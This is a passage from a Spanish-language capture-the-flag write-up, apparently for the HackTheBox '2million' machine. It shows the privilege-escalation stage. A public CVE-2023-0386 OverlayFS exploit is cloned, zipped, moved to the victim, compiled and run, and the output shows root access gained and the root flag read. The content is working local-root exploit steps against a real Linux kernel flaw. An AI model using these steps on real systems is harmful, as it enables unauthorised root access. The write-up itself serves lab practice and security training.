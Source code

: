 Clono el repositorio

```null
https://github.com/sxlmnwb/CVE-2023-0386
```

Creo un un comprimido y transifiero a la máquina víctima

```null
zip exploit.zip -r CVE-2023-0386
```

En la máquina víctima, compilo y ejecuto

```null
admin@2million:/tmp/CVE-2023-0386$ make all
```

```null
root@2million:/tmp/CVE-2023-0386# ./fuse ./ovlcap/lower ./gc &
[+] len of gc: 0x3ee0
[1] 3435
```

```null
./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jul 27 10:39 .
drwxr-xr-x 6 root   root     4096 Jul 27 10:39 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# 
```

Puedo ver la segunda flag
```null
root@2million:/tmp/CVE-2023-0386/ovlcap# cat /root/root.txt 
76d6192d8983ac21f6ed3f25fbcfb264
```
